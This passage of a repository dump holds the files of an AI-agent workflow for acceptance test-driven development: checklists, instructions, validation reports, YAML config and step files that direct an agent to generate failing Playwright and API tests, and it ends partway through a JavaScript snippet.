- [ ] Implementation tasks are granular and actionable
- [ ] data-testid requirements are complete and clear
- [ ] Mock requirements include all necessary details
- [ ] Execution commands work correctly

### With Story Workflow

- [ ] Story ID correctly referenced in output files
- [ ] Acceptance criteria from story accurately reflected in tests
- [ ] Technical constraints from story considered in test design

### With Framework Workflow

- [ ] Test framework configuration correctly detected and used
- [ ] Directory structure matches framework setup
- [ ] Fixtures and helpers follow established patterns
- [ ] Naming conventions consistent with framework standards

### With test-design Workflow (If Available)

- [ ] P0 scenarios from test-design prioritized in ATDD
- [ ] Risk assessment from test-design considered in test coverage
- [ ] Coverage strategy from test-design aligned with ATDD tests

---

## Completion Criteria

All of the following must be true before marking this workflow as complete:

- [ ] **Story acceptance criteria analyzed** and mapped to appropriate test levels
- [ ] **Failing tests created** at all appropriate levels (E2E, API, Component)
- [ ] **Given-When-Then format** used consistently across all tests
- [ ] **RED phase verified** by local test run (all tests failing as expected)
- [ ] **Network-first pattern** applied to E2E tests with network requests
- [ ] **Data factories created** using faker (no hardcoded test data)
- [ ] **Fixtures created** with auto-cleanup in teardown
- [ ] **Mock requirements documented** for external services
- [ ] **data-testid attributes listed** for DEV team
- [ ] **Implementation checklist created** mapping tests to code tasks
- [ ] **Red-green-refactor workflow documented** in ATDD checklist
- [ ] **Execution commands provided** and verified to work
- [ ] **ATDD checklist document created** and saved to correct location
- [ ] **Output file formatted correctly** using template structure
- [ ] **Knowledge base references applied** and documented in summary
- [ ] **No test quality issues** (flaky patterns, race conditions, hardcoded data)

---

## Common Issues and Resolutions

### Issue: Tests pass before implementation

**Problem:** A test passes even though no implementation code exists yet.

**Resolution:**

- Review test to ensure it's testing actual behavior, not mocked/stubbed behavior
- Check if test is accidentally using existing functionality
- Verify test assertions are correct and meaningful
- Rewrite test to fail until implementation is complete

### Issue: Network-first pattern not applied

**Problem:** Route interception happens after navigation, causing race conditions.

**Resolution:**

- Move `await page.route()` calls BEFORE `await page.goto()`
- Review `network-first.md` knowledge fragment
- Update all E2E tests to follow network-first pattern

### Issue: Hardcoded test data in tests

**Problem:** Tests use hardcoded strings/numbers instead of factories.

**Resolution:**

- Replace all hardcoded data with factory function calls
- Use `faker` for all random data generation
- Update data-factories to support all required test scenarios

### Issue: Fixtures missing auto-cleanup

**Problem:** Fixtures create data but don't clean it up in teardown.

**Resolution:**

- Add cleanup logic after `await use(data)` in fixture
- Call deletion/cleanup functions in teardown
- Verify cleanup works by checking database/storage after test run

### Issue: Tests have multiple assertions

**Problem:** Tests verify multiple behaviors in single test (not atomic).

**Resolution:**

- Split into separate tests (one assertion per test)
- Each test should verify exactly one behavior
- Use descriptive test names to clarify what each test verifies

### Issue: Tests depend on execution order

**Problem:** Tests fail when run in isolation or different order.

**Resolution:**

- Remove shared state between tests
- Each test should create its own test data
- Use fixtures for consistent setup across tests
- Verify tests can run with `.only` flag

---

## Notes for TEA Agent

- **Preflight halt is critical:** Do not proceed if story has no acceptance criteria or framework is missing
- **RED phase verification is mandatory:** Tests must fail before sharing with DEV team
- **Network-first pattern:** Route interception BEFORE navigation prevents race conditions
- **One assertion per test:** Atomic tests provide clear failure diagnosis
- **Auto-cleanup is non-negotiable:** Every fixture must clean up data in teardown
- **Use knowledge base:** Load relevant fragments (fixture-architecture, data-factories, network-first, component-tdd, test-quality) for guidance
- **Share with DEV agent:** ATDD checklist provides implementation roadmap from red to green
```

## File: `src/workflows/testarch/bmad-testarch-atdd/instructions.md`
```markdown
<!-- Powered by BMAD-CORE™ -->

# Acceptance Test-Driven Development (ATDD)

**Workflow ID**: `_bmad/tea/testarch/bmad-testarch-atdd`
**Version**: 5.0 (Step-File Architecture)

---

## Overview

Generates **failing acceptance tests** before implementation (TDD red phase), plus an implementation checklist. Produces tests at appropriate levels (E2E/API/Component) with supporting fixtures and helpers.

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture**:

- **Micro-file Design**: Each step is self-contained
- **JIT Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order without skipping

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`
- `test_dir`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-preflight-and-context.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.
```

## File: `src/workflows/testarch/bmad-testarch-atdd/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-atdd
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-atdd
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-atdd

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-preflight-and-context.md: 101 lines [GOOD]
- steps-c/step-02-generation-mode.md: 71 lines [GOOD]
- steps-c/step-03-test-strategy.md: 70 lines [GOOD]
- steps-c/step-04-generate-tests.md: 70 lines [GOOD]
- steps-c/step-05-validate-and-complete.md: 61 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: atdd-checklist-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-04-generate-tests.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-atdd/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-atdd
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-atdd
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-atdd

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-preflight-and-context.md: 100 lines [GOOD]
- steps-c/step-02-generation-mode.md: 70 lines [GOOD]
- steps-c/step-03-test-strategy.md: 69 lines [GOOD]
- steps-c/step-04-generate-tests.md: 69 lines [GOOD]
- steps-c/step-05-validate-and-complete.md: 60 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-preflight-and-context.md: Init [PASS]
- steps-c/step-02-generation-mode.md: Middle [PASS]
- steps-c/step-03-test-strategy.md: Middle [PASS]
- steps-c/step-04-generate-tests.md: Middle [PASS]
- steps-c/step-05-validate-and-complete.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: atdd-checklist-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-04-generate-tests.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 8 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-atdd/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-atdd

    ## Create Mode (steps-c)
    - step-01-preflight-and-context.md

- step-02-generation-mode.md
- step-03-test-strategy.md
- step-04-generate-tests.md
- step-05-validate-and-complete.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - {test_artifacts}/atdd-checklist-{story_id}.md

- Failing acceptance tests under {project-root}/tests
```

## File: `src/workflows/testarch/bmad-testarch-atdd/workflow.md`
```markdown
---
name: bmad-testarch-atdd
description: Generate failing acceptance tests using TDD cycle. Use when user says 'lets write acceptance tests' or 'I want to do ATDD'
web_bundle: true
---

# Acceptance Test-Driven Development (ATDD)

**Goal:** Generate failing acceptance tests before implementation using TDD red-green-refactor cycle

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-preflight-and-context.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-atdd/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-atdd
name: bmad-testarch-atdd
# prettier-ignore
description: 'Generate failing acceptance tests using TDD cycle. Use when the user says "lets write acceptance tests" or "I want to do ATDD"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"
template: "./atdd-checklist-template.md"

# Variables and inputs
variables:
  test_dir: "{project-root}/tests" # Root test directory

# Output configuration
default_output_file: "{test_artifacts}/atdd-checklist-{story_id}.md"

# Required tools
required_tools:
  - read_file # Read story markdown, framework config
  - write_file # Create test files, checklist, factory stubs
  - create_directory # Create test directories
  - list_files # Find existing fixtures and helpers
  - search_repo # Search for similar test patterns

tags:
  - qa
  - atdd
  - test-architect
  - tdd
  - red-green-refactor

execution_hints:
  interactive: false # Minimize prompts
  autonomous: true # Proceed without user input unless blocked
  iterative: true
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-01-preflight-and-context.md`
```markdown
---
name: 'step-01-preflight-and-context'
description: 'Verify prerequisites and load story, framework, and knowledge base'
outputFile: '{test_artifacts}/atdd-checklist-{story_id}.md'
nextStepFile: './step-02-generation-mode.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
---

# Step 1: Preflight & Context Loading

## STEP GOAL

Verify prerequisites and load all required inputs before generating failing tests.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Halt if requirements are missing

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Stack Detection

**Read `config.test_stack_type`** from `{config_source}`.

**Auto-Detection Algorithm** (when `test_stack_type` is `"auto"` or not configured):

- Scan `{project-root}` for project manifests:
  - **Frontend indicators**: `package.json` with react/vue/angular/next dependencies, `playwright.config.*`, `vite.config.*`, `webpack.config.*`
  - **Backend indicators**: `pyproject.toml`, `pom.xml`/`build.gradle`, `go.mod`, `*.csproj`/`*.sln`, `Gemfile`, `Cargo.toml`
  - **Both present** = `fullstack`; only frontend = `frontend`; only backend = `backend`
- Explicit `test_stack_type` config value overrides auto-detection
- **Backward compatibility**: if `test_stack_type` is not in config, treat as `"auto"` (preserves current frontend behavior for existing installs)

Store result as `{detected_stack}` = `frontend` | `backend` | `fullstack`

---

## 2. Prerequisites (Hard Requirements)

- Story approved with **clear acceptance criteria**
- Test framework configured:
  - **If {detected_stack} is `frontend` or `fullstack`:** `playwright.config.ts` or `cypress.config.ts`
  - **If {detected_stack} is `backend`:** relevant test config exists (e.g., `conftest.py`, `src/test/`, `*_test.go`, `.rspec`)
- Development environment available

If any are missing: **HALT** and notify the user.

---

## 3. Load Story Context

- Read story markdown from `{story_file}` (or ask user if not provided)
- Extract acceptance criteria and constraints
- Identify affected components and integrations

---

## 4. Load Framework & Existing Patterns

- Read framework config
- Inspect `{test_dir}` for existing test patterns, fixtures, helpers

## 4.5 Read TEA Config Flags

From `{config_source}`:

- `tea_use_playwright_utils`
- `tea_use_pactjs_utils`
- `tea_pact_mcp`
- `tea_browser_automation`
- `test_stack_type`

---

### Tiered Knowledge Loading

Load fragments based on their `tier` classification in `tea-index.csv`:

1. **Core tier** (always load): Foundational fragments required for this workflow
2. **Extended tier** (load on-demand): Load when deeper analysis is needed or when the user's context requires it
3. **Specialized tier** (load only when relevant): Load only when the specific use case matches (e.g., contract-testing only for microservices, email-auth only for email flows)

> **Context Efficiency**: Loading only core fragments reduces context usage by 40-50% compared to loading all fragments.

### Playwright Utils Loading Profiles

**If `tea_use_playwright_utils` is enabled**, select the appropriate loading profile:

- **API-only profile** (when `{detected_stack}` is `backend` or no `page.goto`/`page.locator` found in test files):
  Load: `overview`, `api-request`, `auth-session`, `recurse` (~1,800 lines)

- **Full UI+API profile** (when `{detected_stack}` is `frontend`/`fullstack` or browser tests detected):
  Load: all Playwright Utils core fragments (~4,500 lines)

**Detection**: Scan `{test_dir}` for files containing `page.goto` or `page.locator`. If none found, use API-only profile.

### Pact.js Utils Loading

**If `tea_use_pactjs_utils` is enabled** (and `{detected_stack}` is `backend` or `fullstack`, or microservices indicators detected):

Load: `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md`, `pact-consumer-di.md`

**If `tea_use_pactjs_utils` is disabled** but contract testing is relevant:

Load: `contract-testing.md`

### Pact MCP Loading

**If `tea_pact_mcp` is `"mcp"`:**

Load: `pact-mcp.md`

## 5. Load Knowledge Base Fragments

Use `{knowledgeIndex}` to load:

**Core (always):**

- `data-factories.md`
- `component-tdd.md`
- `test-quality.md`
- `test-healing-patterns.md`

**If {detected_stack} is `frontend` or `fullstack`:**

- `selector-resilience.md`
- `timing-debugging.md`

**Playwright Utils (if enabled and {detected_stack} is `frontend` or `fullstack`):**

- `overview.md`, `api-request.md`, `network-recorder.md`, `auth-session.md`, `intercept-network-call.md`, `recurse.md`, `log.md`, `file-utils.md`, `network-error-monitor.md`, `fixtures-composition.md`

**Playwright CLI (if tea_browser_automation is "cli" or "auto" and {detected_stack} is `frontend` or `fullstack`):**

- `playwright-cli.md`

**MCP Patterns (if tea_browser_automation is "mcp" or "auto" and {detected_stack} is `frontend` or `fullstack`):**

- (existing MCP-related fragments, if any are added in future)

**Traditional Patterns (if utils disabled and {detected_stack} is `frontend` or `fullstack`):**

- `fixture-architecture.md`
- `network-first.md`

**Backend Patterns (if {detected_stack} is `backend` or `fullstack`):**

- `test-levels-framework.md`
- `test-priorities-matrix.md`
- `ci-burn-in.md`

**Pact.js Utils (if enabled):**

- `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md`, `pact-consumer-di.md`

**Contract Testing (if pactjs-utils disabled but relevant):**

- `contract-testing.md`

**Pact MCP (if tea_pact_mcp is "mcp"):**

- `pact-mcp.md`

---

## 6. Confirm Inputs

Summarize loaded inputs and confirm with the user. Then proceed.

---

## 7. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-preflight-and-context']
  lastStep: 'step-01-preflight-and-context'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-preflight-and-context'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-preflight-and-context'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

**Update `inputDocuments`**: Set `inputDocuments` in the output template frontmatter to the list of artifact paths loaded in this step (e.g., knowledge fragments, test design documents, configuration files).

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/atdd-checklist-{story_id}.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing output document, displaying progress, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` — array of completed step names
- `lastStep` — last completed step name
- `lastSaved` — timestamp of last save

**If `{outputFile}` does not exist**, display:

"⚠️ **No previous progress found.** There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Display Progress Dashboard

Display progress with ✅/⬜ indicators:

1. ✅/⬜ Preflight & Context (step-01-preflight-and-context)
2. ✅/⬜ Generation Mode (step-02-generation-mode)
3. ✅/⬜ Test Strategy (step-03-test-strategy)
4. ✅/⬜ Generate Tests + Aggregate (step-04c-aggregate)
5. ✅/⬜ Validate & Complete (step-05-validate-and-complete)

---

### 3. Route to Next Step

Based on `lastStep`, load the next incomplete step:

- `'step-01-preflight-and-context'` → load `./step-02-generation-mode.md`
- `'step-02-generation-mode'` → load `./step-03-test-strategy.md`
- `'step-03-test-strategy'` → load `./step-04-generate-tests.md`
- `'step-04c-aggregate'` → load `./step-05-validate-and-complete.md`
- `'step-05-validate-and-complete'` → **Workflow already complete.** Display: "✅ **All steps completed.** Use **[V] Validate** to review outputs or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "⚠️ **Unknown progress state** (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps.

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Output document loaded and parsed correctly
- Progress dashboard displayed accurately
- Routed to correct next step

### ❌ SYSTEM FAILURE:

- Not loading output document
- Incorrect progress display
- Routing to wrong step

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-02-generation-mode.md`
```markdown
---
name: 'step-02-generation-mode'
description: 'Choose AI generation or recording mode'
outputFile: '{test_artifacts}/atdd-checklist-{story_id}.md'
nextStepFile: './step-03-test-strategy.md'
---

# Step 2: Generation Mode Selection

## STEP GOAL

Choose the appropriate generation mode for ATDD tests.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Default Mode: AI Generation

Use AI generation when:

- Acceptance criteria are clear
- Scenarios are standard (CRUD, auth, API, navigation)
- **If {detected_stack} is `backend`:** Always use AI generation (no browser recording needed)

Proceed directly to test strategy if this applies.

---

## 2. Optional Mode: Recording (Complex UI)

**Skip this section entirely if {detected_stack} is `backend`.** For backend projects, use AI generation from API documentation, OpenAPI/Swagger specs, or source code analysis instead.

**If {detected_stack} is `frontend` or `fullstack`:**

Use recording when UI interactions need live browser verification.

**Tool selection based on `config.tea_browser_automation`:**

If `auto`:

> **Note:** `${timestamp}` is a placeholder the agent should replace with a unique value (e.g., epoch seconds) for session isolation.

- **Simple recording** (snapshot selectors, capture structure): Use CLI
  - `playwright-cli -s=tea-atdd-${timestamp} open <url>` → `playwright-cli -s=tea-atdd-${timestamp} snapshot` → extract refs
- **Complex recording** (drag/drop, wizards, multi-step state): Use MCP
  - Full browser automation with rich tool semantics
- **Fallback:** If preferred tool unavailable, use the other; if neither, skip recording

If `cli`:

- Use Playwright CLI for all recording
- `playwright-cli -s=tea-atdd-${timestamp} open <url>`, `snapshot`, `screenshot`, `click <ref>`, etc.

If `mcp`:

- Use Playwright MCP tools for all recording (current behavior)
- Confirm MCP availability, record selectors and interactions

If `none`:

- Skip recording mode entirely, use AI generation from documentation

---

## 3. Confirm Mode

State the chosen mode and why. Then proceed.

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-generation-mode']
  lastStep: 'step-02-generation-mode'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-generation-mode'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-generation-mode'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-03-test-strategy.md`
```markdown
---
name: 'step-03-test-strategy'
description: 'Map acceptance criteria to test levels and priorities'
outputFile: '{test_artifacts}/atdd-checklist-{story_id}.md'
nextStepFile: './step-04-generate-tests.md'
---

# Step 3: Test Strategy

## STEP GOAL

Translate acceptance criteria into a prioritized, level-appropriate test plan.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Avoid duplicate coverage across levels

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Map Acceptance Criteria

- Convert each acceptance criterion into test scenarios
- Include negative and edge cases where risk is high

---

## 2. Select Test Levels

Choose the best level per scenario based on `{detected_stack}`:

**If {detected_stack} is `frontend` or `fullstack`:**

- **E2E** for critical user journeys
- **API** for business logic and service contracts
- **Component** for UI behavior

**If {detected_stack} is `backend` or `fullstack`:**

- **Unit** for pure functions, business logic, and edge cases
- **Integration** for service interactions, database queries, and middleware
- **API/Contract** for endpoint validation, request/response schemas, and Pact contracts
- **No E2E** for pure backend projects (no browser-based testing needed)

---

## 3. Prioritize Tests

Assign P0–P3 priorities using risk and business impact.

---

## 4. Confirm Red Phase Requirements

Ensure all tests are designed to **fail before implementation** (TDD red phase).

---

## 5. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03-test-strategy']
  lastStep: 'step-03-test-strategy'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03-test-strategy'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03-test-strategy'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-04-generate-tests.md`
```markdown
---
name: 'step-04-generate-tests'
description: 'Orchestrate adaptive FAILING test generation (TDD red phase)'
nextStepFile: './step-04c-aggregate.md'
---

# Step 4: Orchestrate Adaptive FAILING Test Generation

## STEP GOAL

Select execution mode deterministically, then generate FAILING API and E2E tests (TDD RED PHASE) with consistent output contracts across agent-team, subagent, or sequential execution.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Resolve execution mode from config (`tea_execution_mode`, `tea_capability_probe`)
- ✅ Apply fallback rules deterministically when requested mode is unsupported
- ✅ Generate FAILING tests only (TDD red phase)
- ✅ Wait for required worker steps to complete
- ❌ Do NOT skip capability checks when probing is enabled
- ❌ Do NOT generate passing tests (this is red phase)
- ❌ Do NOT proceed until required worker steps finish

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Wait for subagent outputs
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, acceptance criteria from Step 1, test strategy from Step 3
- Focus: orchestration only (mode selection + worker dispatch)
- Limits: do not generate tests directly (delegate to worker steps)
- Dependencies: Steps 1-3 outputs

---

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Prepare Execution Context

**Generate unique timestamp** for temp file naming:

```javascript
const timestamp = new Date().toISOString().replace(/[:.]/g, '-');
```

**Prepare input context for both subagents:**

```javascript
const parseBooleanFlag = (value, defaultValue = true) => {
  if (typeof value === 'string') {
    const normalized = value.trim().toLowerCase();
    if (['false', '0', 'off', 'no'].includes(normalized)) return false;
    if (['true', '1', 'on', 'yes'].includes(normalized)) return true;
  }
  if (value === undefined || value === null) return defaultValue;
  return Boolean(value);
};

const subagentContext = {
  story_acceptance_criteria: /* from Step 1 */,
  test_strategy: /* from Step 3 */,
  knowledge_fragments_loaded: /* list of fragments */,
  config: {
    test_framework: config.test_framework,
    use_playwright_utils: config.tea_use_playwright_utils,
    use_pactjs_utils: config.tea_use_pactjs_utils,
    pact_mcp: config.tea_pact_mcp,  // "mcp" | "none"
    browser_automation: config.tea_browser_automation,
    execution_mode: config.tea_execution_mode || 'auto',  // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: parseBooleanFlag(config.tea_capability_probe, true),  // supports booleans and "false"/"true" strings
    provider_endpoint_map: /* from Step 1/3 context, if use_pactjs_utils enabled */,
  },
  timestamp: timestamp
};
```

---

### 2. Resolve Execution Mode with Capability Probe

```javascript
const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

